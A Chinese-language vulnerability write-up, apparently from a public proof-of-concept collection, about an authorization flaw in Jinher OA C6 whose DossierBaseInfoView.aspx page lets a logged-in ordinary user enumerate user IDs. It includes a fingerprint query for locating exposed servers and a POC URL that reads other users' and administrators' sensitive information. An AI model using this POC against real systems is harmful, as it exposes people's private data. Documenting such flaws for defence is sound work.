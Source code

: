 # 

# 金和OA C6 DossierBaseInfoView.aspx 后台越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

```
金和OA C6
```

## 网络测绘

```
app="Jinher-OA"
```

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```plain
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

- 注意 RY120330 需要为确定的其他的用户编号

![1](./images/202202090135010.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA
